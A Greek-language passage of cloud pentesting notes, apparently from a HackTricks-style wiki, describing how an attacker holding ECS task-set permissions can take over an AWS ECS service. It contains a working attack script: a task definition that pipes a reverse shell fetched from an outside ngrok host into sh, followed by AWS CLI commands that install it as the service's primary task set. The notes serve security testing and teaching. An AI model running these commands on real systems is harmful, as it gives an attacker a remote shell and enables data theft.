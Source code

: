 ### `?ecs:RegisterContainerInstance`

TODO: Είναι δυνατόν να καταχωρήσετε μια παρουσία από διαφορετικό λογαριασμό AWS ώστε οι εργασίες να εκτελούνται σε μηχανές που ελέγχονται από τον επιτιθέμενο;;

### `ecs:CreateTaskSet`, `ecs:UpdateServicePrimaryTaskSet`, `ecs:DescribeTaskSets`

{% hint style="info" %}
TODO: Δοκιμάστε αυτό
{% endhint %}

Ένας επιτιθέμενος με τις άδειες `ecs:CreateTaskSet`, `ecs:UpdateServicePrimaryTaskSet`, και `ecs:DescribeTaskSets` μπορεί να **δημιουργήσει ένα κακόβουλο σύνολο εργασιών για μια υπάρχουσα υπηρεσία ECS και να ενημερώσει το κύριο σύνολο εργασιών**. Αυτό επιτρέπει στον επιτιθέμενο να **εκτελεί αυθαίρετο κώδικα εντός της υπηρεσίας**.
```bash
bashCopy code# Register a task definition with a reverse shell
echo '{
"family": "malicious-task",
"containerDefinitions": [
{
"name": "malicious-container",
"image": "alpine",
"command": [
"sh",
"-c",
"apk add --update curl && curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | sh"
]
}
]
}' > malicious-task-definition.json

aws ecs register-task-definition --cli-input-json file://malicious-task-definition.json

# Create a malicious task set for the existing service
aws ecs create-task-set --cluster existing-cluster --service existing-service --task-definition malicious-task --network-configuration "awsvpcConfiguration={subnets=[subnet-0e2b3f6c],securityGroups=[sg-0f9a6a76],assignPublicIp=ENABLED}"

# Update the primary task set for the service
aws ecs update-service-primary-task-set --cluster existing-cluster --service existing-service --primary-task-set arn:aws:ecs:region:123456789012:task-set/existing-cluster/existing-service/malicious-task-set-id
```
**Πιθανές Επιπτώσεις**: Εκτέλεση αυθαίρετου κώδικα στην επηρεαζόμενη υπηρεσία, ενδεχομένως επηρεάζοντας τη λειτουργικότητά της ή εξάγοντας ευαίσθητα δεδομένα.

## Αναφορές

* [https://ruse.tech/blogs/ecs-attack-methods](https://ruse.tech/blogs/ecs-attack-methods)
